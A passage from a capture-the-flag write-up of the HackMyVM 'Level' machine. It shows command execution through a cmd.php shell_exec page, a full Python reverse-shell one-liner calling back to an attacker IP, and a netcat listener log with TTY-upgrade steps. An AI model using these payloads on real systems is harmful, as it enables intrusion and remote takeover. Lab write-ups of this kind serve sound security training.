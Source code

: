 ```
Boom let browse through it and i got an error.

![image](https://user-images.githubusercontent.com/69868171/140063624-3786d9ef-dfba-4a6c-a420-3d73a5360e30.png)

```
 Warning: shell_exec(): Cannot execute a blank command in /var/www/html/Level2021/cmd.php on line 2
 ```
 seems we can execute a command let try it.
 
 ![image](https://user-images.githubusercontent.com/69868171/140063838-74cbfa7d-180c-4de9-b6f2-7fd5a9b8f003.png)

Boom we can execute a command is cool let get a reverse shell back to us.

### Shell As WWW-DATA

Let confirm which python is running on the target.

![image](https://user-images.githubusercontent.com/69868171/140064417-b39d7efd-9d83-49da-b410-f5d58e9b745b.png)

Payload to get a reverse shell;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](https://user-images.githubusercontent.com/69868171/140064767-a6fbeade-f654-4bd5-9e6b-ebdfe8bc6744.png)

Netcat listener ready now let run it and checking back our ncat listener and we have shell.

![image](https://user-images.githubusercontent.com/69868171/140069432-fe2172a5-50be-4748-9b9b-18cd13588871.png)

Now let spawn a tty shell.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/level]
└─$ nc -nvlp 1337                                                                             
listening on [any] 1337 ...
connect to [172.16.109.1] from (UNKNOWN) [172.16.109.148] 44982
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn ("/bin/bash")'
www-data@Level:/var/www/html/Level2021$ ^Z
zsh: suspended  nc -nvlp 1337
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/level]
└─$ stty raw -echo; fg                                                                                                                                       148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 1337
